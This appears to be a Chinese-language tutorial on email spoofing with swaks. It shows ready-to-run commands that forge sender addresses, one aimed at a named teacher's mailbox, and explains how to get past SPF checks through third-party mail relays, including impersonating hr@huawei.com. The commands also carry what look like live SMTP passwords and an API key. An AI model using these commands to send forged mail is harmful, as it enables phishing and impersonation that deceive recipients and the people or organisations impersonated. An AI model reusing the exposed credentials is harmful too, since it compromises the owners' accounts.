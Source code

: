 实验在kali中进行，自带swaks

# 基本使用
----
```xml
-- to <收件人的邮箱>
-- from <要显示的发件人邮箱>
-- ehlo <伪造的邮件ehlo头>
-- body <邮件正文>
-- header <邮件头信息，subject为邮件标题>
```
当要攻击的邮件平台没有SPF记录时，直接使用swaks伪造发送即可！

```shell
# 发件人伪装成 admin@ofse.com, 攻击老师的邮箱：laptergrsd@139.com
swaks --body "test" --header "Subject:HelloWorld" -t laptergrsd@139.com -f "admin@ofse.com"
```

而大部分正规平台使用了SPF记录来拦截伪造发送的行为
```shell
# qq会检测from邮箱和user是否一致!
swaks --to 1286746591@qq.com --from 1286746591@qq.com --server smtp.qq.com:465 --tls-on-connect --auth-user 1286746591@qq.com --auth-password dwkbrpstreygbadh

# 直接攻击谷歌/qq邮箱，会被SPF拦截，550错误
swaks --to xiaoxiaomeitou@gmail.com --from admin@ofse.com

```

如果存在SPF记录，则利用第三方邮件托管平台伪造，但是一般会显示由xxx代发
swaks --to qpzami02361@chacuo.net --from admin@ofse.com
# 绕过 SPF
## 利用邮件托管平台绕过SPF记录
- [smtp2go](https://www.smtp2go.com/)（速度慢但免费发送量大，需要自己有域名）
- [SendCloud](https://www.sendcloud.net/)（速度快但免费发送量少）:key-2ed826514c45df1170f6098b60091abe
- 也可以自己搭建邮件服务器
这里我们使用smtp2go，注册账户并登录，smtp2go中需要存在有效SMTP Users和Domains才能正常投递邮件。

```shell
swaks --to 1286746591@qq.com --from hr@huawei.com --header 'Subject: test main' --ehlo gmail.com --body 'hello, I am blut' --server sendcloud.org -au sc_3vyf8g -ap 2ed826514c45df1170f6098b60091abe --header-X-Mailer gmail.com
```

 不太行得通，留一个坑在这以后慢慢研究吧！
